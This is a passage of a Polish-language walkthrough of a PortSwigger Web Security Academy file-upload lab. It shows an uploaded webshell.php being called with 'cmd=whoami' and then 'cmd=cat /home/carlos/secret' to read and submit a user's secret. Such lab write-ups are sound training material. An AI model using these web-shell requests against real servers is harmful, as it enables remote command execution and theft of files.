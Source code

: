 Na obrazku klikamy prawym przyciskiem myszy i wybieramy opcję "Copy image address":

![image address](https://www.dropbox.com/scl/fi/lnniln0554xrlpqg200kj/pb-FS7mTgSJMc.png?rlkey=ydmckbjdq28sn009whzswvwil&raw=1)

W nowej karcie wklejamy adres obrazka:

![image address copied](https://www.dropbox.com/scl/fi/k990net4wkcql2vmmbx9i/pb-PW304i2ujZ.png?rlkey=a6dpxk2nidjcfdyobpaqle483&raw=1)

Strona załadowała się, ale jest biało:

![white page](https://www.dropbox.com/scl/fi/r4hi5veapo3xeh9n648vj/pb-Ot1OtLjo5P.png?rlkey=514iqbwq87llnuj9cpm5dfzjy&raw=1)

Musimy jeszcze podać parametr CMD:

```
web-security-academy.net/files/avatars/webshell.php?cmd=whoami
```

Klikamy "**Enter**".

Teraz widzimy, że jesteśmy "carlosem":

![carlos page](https://www.dropbox.com/scl/fi/r3r2bc15q1asmccs3z0dr/pb-APYx077OKa.png?rlkey=cunjbf6nppghgappuei409t6p&raw=1)

Zmieńmy komendę "whoami" na taką, która pozwoli na odczytanie sekretu "carlosa":

```
web-security-academy.net/files/avatars/webshell.php?cmd=cat /home/carlos/secret
```

Sukces:

![carlos secret](https://www.dropbox.com/scl/fi/wflto9ga1hjn6f3tz89tb/pb-1ZmCLxLGwH.png?rlkey=vulaxm05whl2eokrmry11sal2&raw=1)

```
8ZYWsxxNmgBMX6BTUfQlgQevsyvImkAM
```

Kopiujemy tę wartość i wysyłamy jako odpowiedź, klikając "Submit solution":

![submit solution button](https://www.dropbox.com/scl/fi/57mscyffd0quohd1zlpns/pb-7Ixp1H8rEn.png?rlkey=xfkzc0bacw5w82khszi802rfs&raw=1)

Lab rozwiązany:

![lab solved](https://www.dropbox.com/scl/fi/ucu8r4kxv0qeuukv4ihu5/pb-bwk67SwJ3v.png?rlkey=t3ibtxnervxn29vuuv1pjagnn&raw=1)



